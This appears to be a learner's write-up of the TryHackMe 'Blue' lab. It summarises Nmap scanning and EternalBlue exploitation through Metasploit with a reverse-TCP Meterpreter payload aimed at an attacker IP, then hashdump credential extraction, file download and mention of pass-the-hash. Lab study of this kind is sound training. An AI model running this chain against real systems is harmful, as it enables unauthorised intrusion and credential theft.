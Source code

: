 # Room: Blue (TryHackMe)

**Date:** 8 Oct 2025  
**Path:** Cyber Security 101 
**Goal:** Follow a penetration test flow specific to this room: reconnaissance using Nmap, gaining access via MS17-010 (EternalBlue) exploit in Metasploit, using Meterpreter for post-exploitation (including `hashdump`), and capturing flags.

## 1. Key Concepts Learned

* **Recon**:

  * Used `nmap` for port and service discovery to identify vulnerable hosts and open services.  
  * Saved scan outputs for later import into Metasploit or documentation.  

* **Gain Access**:

  * Initial access was achieved using the **MS17-010 / EternalBlue** vulnerability.  
  * Used Metasploit (`msfconsole`) to select and configure the `exploit/windows/smb/ms17_010_eternalblue` module, then delivered a Meterpreter payload to get an interactive session.  
  * Workflow: `nmap` to find targets → `msfconsole` → `use exploit/windows/smb/ms17_010_eternalblue` → `set RHOSTS`/`set LHOST`/`set PAYLOAD` → `exploit`.

* **Post-exploitation (Meterpreter)**:

  * Once a Meterpreter session was obtained, used typical Meterpreter commands to gather info and move laterally.  
  * Used `hashdump` to extract password hashes from the compromised host (requires appropriate privileges).  
  * Other useful Meterpreter commands used: `sysinfo`, `getuid`, `ps`, `migrate`, `download` to exfiltrate files of interest.

* **Cracking / Credential Use**:

  * Extracted hashes via `hashdump` can be cracked offline with tools like `john` or `hashcat`, or used in pass-the-hash / lateral movement techniques.  
  * In this room, `hashdump` provided credentials and sensitive artifacts that helped progress to capture flags and further access.

* **Find flags!**:

  * User and root/administrator flags were located on the compromised VM; typical locations include user home directories and privileged locations (e.g., `C:\Users\<user>\Desktop\user.txt`, `C:\Windows\System32\config` or `C:\Users\Administrator\Desktop\root.txt`).  
  * Always document the steps taken to retrieve flags for reporting and reproducibility.

## 2. Commands / Tools Practiced

* `nmap -sC -sV -oA blue_scan <TARGET>` — service/port enumeration and save outputs.  
* `msfconsole` → `use exploit/windows/smb/ms17_010_eternalblue` → `set RHOSTS <target>` `set LHOST <attacker_ip>` `set PAYLOAD windows/x64/meterpreter/reverse_tcp` → `exploit`.  
* `sessions -l` / `sessions -i <id>` — list and interact with Meterpreter sessions.  
* `meterpreter> sysinfo`, `meterpreter> getuid`, `meterpreter> ps` — gather system context.  
* `meterpreter> hashdump` — dump NTLM hashes from the compromised host (requires SYSTEM).  
* `meterpreter> download C:\path\to\flag.txt` — retrieve flags/files.  

## 3. Takeaways

* In this box, MS17-010/EternalBlue was the direct route to compromise — always correlate Nmap findings with known CVEs and exploit modules.  
* Metasploit + Meterpreter provides a fast path from exploitation to post-exploitation (discovery, credential extraction, file exfiltration).  
* `hashdump` is a high-value post-exploitation command; handle extracted hashes responsibly and use them only in lab environments.  
* Documenting commands, options, and outputs is crucial for reports and reproducibility.

## 4. Next Steps

* Practice the full exploit chain in a local lab: Nmap → identify target → exploit via Metasploit → Meterpreter post-exploitation.  
* Learn defensive mitigations for MS17-010 (patching SMB, disabling SMBv1, network segmentation).  
* Practice cracking NTLM hashes offline and using extracted credentials for lateral movement in lab scenarios.  
* Improve reporting: include `-oA` scan outputs, Meterpreter session logs, and step-by-step screenshots or terminal outputs for each stage.
